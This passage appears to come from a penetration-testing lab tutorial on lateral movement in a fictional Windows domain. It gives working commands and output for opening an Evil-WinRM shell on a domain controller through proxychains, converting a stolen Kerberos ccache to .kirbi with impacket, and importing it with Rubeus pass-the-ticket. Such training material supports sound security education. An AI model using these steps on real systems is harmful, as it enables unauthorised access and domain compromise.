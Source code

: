 **Using Evil-WinRM**

```shell-session
realCustampin@htb[/htb]$ proxychains evil-winrm -i dc01 -r inlanefreight.htb

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14

Evil-WinRM shell v3.3

Warning: Remote path completions are disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:5985  ...  OK
*Evil-WinRM* PS C:\Users\julio\Documents> whoami ; hostname
inlanefreight\julio
DC01
```

## Miscellaneous

We can use impacket-ticketConverter to convert the ccache file to a .kirbi file. 

```shell-session
realCustampin@htb[/htb]$ impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] converting ccache to kirbi...
[+] done
```

**Importing Converted Ticket into Windows Session with Rubeus**

```cmd-session
C:\htb> C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: Import Ticket
[+] Ticket successfully imported!
C:\htb> klist

Current LogonId is 0:0x31adf02

Cached Tickets: (1)

#0>     Client: julio @ INLANEFREIGHT.HTB
        Server: krbtgt/INLANEFREIGHT.HTB @ INLANEFREIGHT.HTB
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0xa1c20000 -> reserved forwarded invalid renewable initial 0x20000
        Start Time: 10/10/2022 5:46:02 (local)
```